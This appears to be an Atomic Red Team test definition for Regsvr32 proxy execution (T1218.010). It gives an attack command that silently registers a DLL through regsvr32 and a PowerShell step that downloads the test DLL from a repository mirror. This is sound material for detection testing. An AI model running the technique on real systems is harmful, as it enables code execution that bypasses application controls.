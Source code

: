 **Supported Platforms:** Windows


**auto_generated_guid:** 9d71c492-ea2e-4c08-af16-c6994cdf029f





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| dll_name | Name of DLL to Install | string | PathToAtomicsFolder&#92;T1218.010&#92;bin&#92;AllTheThingsx86.dll|
| regsvr32path | Default location of Regsvr32.exe | string | C:&#92;Windows&#92;system32|
| regsvr32name | Default name of Regsvr32.exe | string | regsvr32.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
#{regsvr32path}\#{regsvr32name} /s /i "#{dll_name}"
```




#### Dependencies:  Run with `powershell`!
##### Description: AllTheThingsx86.dll must exist on disk at specified location (#{dll_name})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{dll_name}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{dll_name}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://rangegogs.cnd.ca.gov/Range/atomic-red-team/raw/master/atomics/T1218.010/bin/AllTheThingsx86.dll" -OutFile "#{dll_name}"
```




<br/>
